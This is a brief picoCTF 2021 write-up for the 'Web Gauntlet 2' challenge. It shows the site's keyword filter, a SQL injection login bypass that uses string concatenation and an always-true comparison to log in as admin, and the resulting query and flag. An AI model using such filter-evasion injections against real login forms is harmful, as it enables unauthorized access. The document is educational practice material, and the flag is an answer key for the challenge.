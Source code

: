# Web Gauntlet 2

```markdown
Tags: `picoCTF2021` `Web Exploitation`
```

## **Description**

This website looks familiar... Log in as admin Site: [http://mercury.picoctf.net:65261/](http://mercury.picoctf.net:65261/) Filter: [http://mercury.picoctf.net:65261/filter.php](http://mercury.picoctf.net:65261/filter.php)

<figure><img src="../.gitbook/assets/image (28) (1).png" alt=""><figcaption></figcaption></figure>

The filter of this round: or and true false union like = > < ; -- /\* \*/ admin

```sql
Username: ad'||'min
password: 1' IS NOT '2
```

```sql
SELECT username, password FROM users WHERE username='ad'||'min' AND password='1' IS NOT '2' 
```

## Flag

<figure><img src="../.gitbook/assets/image (29) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (30) (1).png" alt=""><figcaption><p><code>picoCTF{0n3_m0r3_t1m3_e2db86ae880862ad471aa4c93343b2bf}</code></p></figcaption></figure>

## Follow Me

* **LinkedIn**: [https://www.linkedin.com/in/waris-damkham/](https://www.linkedin.com/in/waris-damkham/)
* **Website**: [https://waris-damkham.netlify.app/](https://waris-damkham.netlify.app/#home)
